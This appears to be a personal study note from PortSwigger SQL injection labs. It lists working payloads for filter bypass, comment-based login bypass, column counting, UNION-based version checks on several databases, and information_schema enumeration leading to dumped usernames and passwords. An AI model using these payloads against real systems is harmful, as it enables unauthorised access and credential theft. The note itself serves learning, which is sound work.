 # SQL injection

CheatSheet: [https://portswigger.net/web-security/sql-injection/cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

## **Retrieving hidden data - Vulnerability in WHERE clause allowing retrieval of hidden data**

In GET Query parameter just add ‘OR 1=1—

```
/filter?category=Accessories' OR 1=1--
```

## ****Subverting application logic - SQL injection vulnerability allowing login bypass****

Request body:

```
csrf=SguQ2lewWGmFunaO60b4dDvxLLm0Ndq7&username=administrator'--&password=peter
```

query would look like:

```
 SELECT * FROM users WHERE username = 'administrator'--' AND password = ''
```

## UNION Attacks

*NOTE*:

- Some of the end char can not work so if “ - - “ doesn’t work you should try #

1. Determine number of columns
    
    ```
    ‘order by x—
    ```
    
    x - column number
    
    do until you hit internal server error
    
2. Determine the data types of the columns
    
    ```
    ‘union select ‘a’, NULL—
    ```
    
    if you see that types are string but you still get internal server error, that means that you are breaking into Oracle database
    
    for Oracle you should use like this: ‘union select ‘a’, ‘a’ from DUAL—
    
3. Checking database version
    
    ```
    ‘ UNION SELECT VERSION()— (mysql)
    ```
    
    ```
    ‘ UNION SELECT version FROM v$instance  || ‘ UNION SELECT banner FROM v$version
    ```
    
    NOTE: keep in mind if there is more than one column, then you have to pass nullable to other columns, example (two columns):
    
    ```
    ‘ UNION SELECT banner, NULL FROM v$version
    ```
    
4. Output table name (every single db outputs differently) in this case i’ll provide postgres (other things you can find in cheatsheet)
    1. Finding version
        
        ```
        ' UNION SELECT version(), NULL--
        ```
        
    2. Output the list of table names in the database
        
        ```
        ' UNION SELECT table_name, NULL FROM information_schema.tables-- (in my case was users_kxcfuq)
        ```
        
    3. Output the column names of the table
        
        ```
        ' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'users_kxcfuq'-- (username_qbheac, password_gjnzjk)
        ```
        
    4. Output the usernames and passwords
        
        ```
        ' UNION select username_qbheac, password_gjnzjk from users_kxcfuq-- (administrator, 372c1ao9kijiug5t02h0)
        ```
        

*NOTE*:

AND 0 ignores first table result, throws false to first query/statement